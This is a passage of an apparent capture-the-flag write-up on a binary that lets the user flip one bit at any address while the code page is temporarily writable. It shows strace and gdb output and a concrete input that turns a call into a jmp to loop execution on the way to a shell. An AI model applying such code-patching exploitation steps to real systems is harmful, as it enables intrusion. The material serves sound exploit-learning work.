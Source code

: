 ```C
```

The code generated by IDA is pretty straightforward to understand.
The program wait for the user to enter two values separated by a colon => "%lx:%u"

The first value must be a long hexadecimal value.
The second must be an unsigned integer and equal or below 7 to reach the branch where mprotect is called, else it quit.

Once corrects values are given, here's what happen :

```
-> echo '400000:1' | strace -e mprotect,read ./bit 
....
....
read(0, "400000:1\n", 4096)             = 9
mprotect(0x400000, 4096, PROT_READ|PROT_WRITE|PROT_EXEC) = 0
mprotect(0x400000, 4096, PROT_READ|PROT_EXEC) = 0
+++ exited with 0 +++
```

We can see the mprotect call which set the 0x400000 to PROT_READ|PROT_WRITE|PROT_EXEC aka 7 aka RWX.
We also see that the flag is set to RX just after.

But between theses two mprotect call, we have :

```
*mem_dst ^= 1 << value;
```

So if we entered : 400000:5
It would write (content at address 0x400000) ^ (1 << 5) at 0x400000

So, what can we do with a restricted write "ANYWHERE" ? Lot of things.


## Looping the CODE ##

The first thing we need to do is to loop the execution flow (by modyfing an opcode or a jump/call address), it will permit us to write more bytes, so we can get a shell.

Using this input :

400713:0

Which transform :

```
gef> x/3i 0x400710
   0x400710:	mov    rdi,rax
   0x400713:	call   0x400520 <mprotect@plt>
   0x400718:	mov    eax,0x0
```
to :
```
gef> x/3i 0x400710
   0x400710:	mov    rdi,rax
   0x400713:	jmp    0x400520 <mprotect@plt>
   0x400718:	mov    eax,0x0
```
